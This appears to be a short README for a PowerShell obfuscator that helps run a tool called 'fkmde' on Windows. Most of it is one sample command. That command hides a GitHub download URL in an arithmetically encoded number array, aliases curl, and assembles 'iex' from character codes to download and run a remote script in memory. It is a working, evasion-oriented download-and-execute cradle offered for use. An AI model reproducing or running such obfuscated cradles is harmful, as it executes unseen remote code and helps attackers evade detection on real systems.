 # ps1-obfuscator
A ps1 obfuscator designed to help run fkmde or other tools in an Windows environment

# Sample script
```
powershell -Command "new-alias xwvxn curl; $randomVarName1 = @(8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $randomVarName2 = ''; foreach ($asciiValue in $randomVarName1) { $decodedChar=[char]($asciiValue-8787); $randomVarName2+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(xwvxn -useb $randomVarName2)"
```
